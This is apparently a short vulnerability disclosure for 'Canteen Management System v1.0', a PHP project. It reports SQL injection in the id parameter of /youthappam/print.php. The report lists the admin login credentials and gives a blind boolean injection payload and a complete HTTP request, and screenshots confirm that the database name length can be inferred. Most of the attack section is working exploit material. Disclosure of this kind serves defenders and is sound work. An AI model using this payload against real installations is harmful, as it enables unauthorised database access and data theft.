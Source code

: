 # Canteen Management System v1.0 by mayuri_k has SQL injection

BUG_Author: 庞习铭

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability File: /youthappam/print.php?id=

Vulnerability location: /youthappam/print.php?id=, id

dbname =youthappam,length=10

[+] Payload: /youthappam/print.php?id=1%27%20and%20length(database())%20=10--+ // Leak place ---> id

```sql
GET /youthappam/print.php?id=1%27%20and%20length(database())%20=10--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
```

length = 10
![image](https://user-images.githubusercontent.com/54017627/195261327-c2c30ed4-9bb2-45ae-b291-a3d1bca25bce.png)

length = 9
![image](https://user-images.githubusercontent.com/54017627/195261451-df6c6696-cb23-49c0-949c-62ee97baaed9.png)
